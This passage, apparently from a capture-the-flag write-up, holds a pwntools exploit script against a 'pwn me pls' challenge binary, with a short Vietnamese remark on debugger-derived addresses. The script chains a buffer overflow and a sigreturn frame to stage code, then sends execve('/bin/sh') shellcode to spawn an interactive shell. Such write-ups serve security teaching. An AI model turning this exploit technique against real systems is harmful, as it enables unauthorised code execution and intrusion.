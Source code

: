 ```python
    payload += bytes(frame)
    return payload

payload = b'a'*offset
payload += read_main()
input("stage1")
p.sendlineafter(b'pwn me pls',payload)
input()
p.sendline(p64(exe.sym.main))

input("stage2")
payload3 = b'a'*offset
payload3 += mmap()
payload3 += p64(pop_rax)
payload3 += p64(0xf)
payload3 += p64(syscall_ret)

frame = SigreturnFrame(arch="amd64",kernel="amd64")
frame.rdi = 0x200000
frame.rip = gets
frame.rsp = 0x4049a8
payload3 += bytes(frame)
payload3 += p64(call_rax)



p.sendline(payload3)
shellcode = asm('''
                xor rax,rax
                xor rdi,rdi
                xor rsi,rsi
                xor rdx,rdx
                movabs rdi,29400045130965551
                push rdi
                mov rdi,rsp
                mov al,0x3b
                syscall
                ''')
input()
p.sendline(shellcode)





p.interactive()
```

- chú ý rằng các địa chỉ được setup ở frame.rsp là do debug mà mình có được 

![shell](/assets/images/shellhehe.png)
